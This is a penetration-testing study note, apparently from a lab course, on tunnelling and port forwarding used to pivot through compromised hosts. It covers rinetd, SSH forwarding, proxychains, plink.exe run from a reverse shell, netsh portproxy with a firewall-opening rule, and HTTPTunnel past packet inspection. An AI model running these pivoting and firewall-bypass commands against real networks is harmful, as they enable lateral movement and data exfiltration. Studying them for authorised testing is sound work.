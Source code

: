 ```yaml
---
description: >-
  Port forwarding is the simplest traffic manipulation technique we will examine
  in which we redirect traffic destined for one IP address and port to another
  IP address and port.
---
```


# Tunneling & Port Forwarding

### RINETD (use rinetd to redirect any traffic)

> In this fairly common scenario, our first target, the Linux web server, has Internet connectivity, but the second machine, the Linux client, does not. We were only able to access this client by pivoting through the Internet-connected server. In order to pivot again, this time from the Linux client, and begin assessing other machines on the internal network, we must be able to transfer tools from our attack machine and exfiltrate data to it as needed. Since this client can not reach the Internet directly, we must use the compromised Linux web server as a go-between, moving data twice and creating a very tedious data transfer process.

<figure><img src="https://github.com/lithonn/lithonn.github.io/raw/master/assets/img/posts/network_pentest/port-redirection-tunneling/image1.png" alt=""><figcaption></figcaption></figure>

Check access the internet:

```sh
ping google.com -c 1
nc -nvv 216.58.207.142 80
```

> _Linux client is indeed disconnected from the Internet. In order to transfer files to an Internet-connected host, we must first transfer them to the Linux web server and then transfer them again to our intended destination. Instead, we will use a port forwarding tool called rinetd1 to redirect traffic on our Kali Linux server._

Install rinetd tool:

```sh
sudo apt update && sudo apt install rinetd
```

After install rinetd, configuration file, /etc/rinetd.conf, lists forwarding rules that require four parameters, including _bind address - bind port - connect address - connect port which define the traffic's destination address and port_

Exam: use rinetd to redirect any traffic received by the Kali web server on port 80 to the google.com IP address we used in our tests. To do this, we will edit the rinetd configuration file and specify the following forwarding rule 0.0.0.0 80 216.58.207.142 80.

Check file configuration rinetd:

```sh
cat /etc/rinetd.conf
...
# bindadress  bindport  connectaddress  connectport
0.0.0.0 80 216.58.207.142 80
...
```

Restart rinetd service

```sh
sudo service rinetd restart
```

<figure><img src="https://github.com/lithonn/lithonn.github.io/raw/master/assets/img/posts/network_pentest/port-redirection-tunneling/image2.png" alt=""><figcaption></figcaption></figure>

### SSH Tunneling

#### SSH Local Port Forwarding

SSH _local port forwarding_ allows us to tunnel a local port to a remote server using SSH as the transport protocol. The effects of this technique are similar to rinetd port forwarding, with a few twists

Check config ssh local port forwarding:

```sh
cat /root/port_forwarding_and_tunneling/ssh_local_port_forwarding.sh
```

SSH Local port forwarding

```sh
sudo ssh -N -L [bind_address:]port:host:hostport [username@address]
sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 ntt@10.11.0.128
```

<figure><img src="https://github.com/lithonn/lithonn.github.io/raw/master/assets/img/posts/network_pentest/port-redirection-tunneling/image3.png" alt=""><figcaption></figcaption></figure>

#### SSH Remote Port Forwarding

```sh
ssh -N -R [bind_address:]port:host:hostport [username@address]
ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

<figure><img src="https://github.com/lithonn/lithonn.github.io/raw/master/assets/img/posts/network_pentest/port-redirection-tunneling/image4.png" alt=""><figcaption></figcaption></figure>

#### SSH Dynamic Port Forwarding

> Dynamic port forwarding allows you to create a socket on the local (ssh client) machine, which acts as a SOCKS proxy server. When a client connects to this port, the connection is forwarded to the remote (ssh server) machine, which is then forwarded to a dynamic port on the destination machine. This way, all the applications using the SOCKS proxy will connect to the SSH server, and the server will forward all the traffic to its actual destination.

Dynamic Port Forwarding

```sh
ssh -N -D [address_bind]:port_bind [username@<IP_server>]
sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

Modify proxychains config

```sh
cat /etc/proxychains.conf
...
[ProxyList]
socks4 127.0.0.1 8080
```

<figure><img src="https://github.com/lithonn/lithonn.github.io/raw/master/assets/img/posts/network_pentest/port-redirection-tunneling/image5.png" alt=""><figcaption></figcaption></figure>

Syntax with proxychains

```sh
sudo proxychains nmap --top-port=20 -sT -Pn 192.168.1.10
```

### PLINK.exe

> Assume: we have gained access to a Windows 10 machine during our assessment through a vulnerability. We would like to scan this database or interact with the service. However, because of the firewall, we cannot directly interact with this service from our Kali machine. =>use plink.exe to connect via SSH (-ssh) to our Kali machine (10.11.0.4) as the kali user (-l kali) with a password of "ilak" (-pw ilak) to create a remote port forward (-R) of port 1234 (10.11.0.4:1234) to the MySQL port on the Windows target (127.0.0.1:3306)

```sh
plink.exe
plink.exe -ssh -l kali -pw kali -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

#However, since this will most likely not work with the interactivity level we have in a typical reverse shell, we should pipe the answer to the prompt with the cmd.exe /c echo y command. From our reverse shell, then, this command will successfully establish the remote port forward without any interaction:
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

#Now that our tunnel is active, we can attempt to launch an Nmap scan of the target's MySQL port via our localhost port forward on TCP port 1234:
sudo nmap -sS -sV 127.0.0.1 -p 1234
```

### NETSH

Require:

* The windows system must have the IP Helper service running
* IPv6 support must be enabled for the interface we want to use

Example: we will use the netsh (interface) context to add an IPv4-to-IPv4 (v4tov4) proxy (portproxy) listening on 10.11.0.22 (listenaddress=10.11.0.22), port 4455 (listenport=4455) that will forward to the Windows 2016 Server (connectaddress=192.168.1.110) on port 445 (connectport=445)

Note: payload on the compromised machine

```sh
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110

#Check port 4455 is listening on the compromised windows host
netstat -anp TCP | find "4455"

#using netsh to allow inbound traffic on TCP port 4455 (default Windows Firewall will disallow inbound connection on TCP port 4455)
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow

#connect to compromised windows machine on port 4455 using smbclient
sudo nano /etc/samba/smb.conf
cat /etc/samba/smb.conf
sudo /etc/init.d/smbd restart
smbclient -L 10.11.0.22 --port=4455 --user=Administrator

sudo mkdir /mnt/win10_share
sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
ls -l /mnt/win10_share/
cat /mnt/win10_share/data.txt
```

### HTTP Tunneling through Deep Packet Inspection

Certain deep packet content inspection devices may only allow specific protocols. If, for example, the SSH protocol is not allowed, all the tunnels that relied on this protocol would fail.

<figure><img src="https://github.com/lithonn/lithonn.github.io/raw/master/assets/img/posts/network_pentest/port-redirection-tunneling/image6.png" alt=""><figcaption></figcaption></figure>

View content of the http\_tunneling

```sh
cat /root/port_forwarding_and_tunneling/http_tunneling.sh
/root/port_forwarding_and_tunneling/http_tunneling.sh
```

Install HTTPtunnel

```sh
apt-cache search httptunnel
sudo apt install httptunnel
```

Local port forward from Debian to windows server remote desktop port

```sh
ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
ss -antp | grep "8888"
```

Setting up the server component of HTTPTunnel

```sh
hts --forward-port localhost:8888 1234
ps aux | grep hts
ss -antp |grep "1234"
```

Setting up the client component of HTTPTunnel

```sh
htc --forward-port 8080 10.11.0.128:1234
ps aux | grep htc
ss -antp | grep "8080"
```

Check rdp from kali to windows server

```sh
rdesktop 127.0.0.1:8080
```
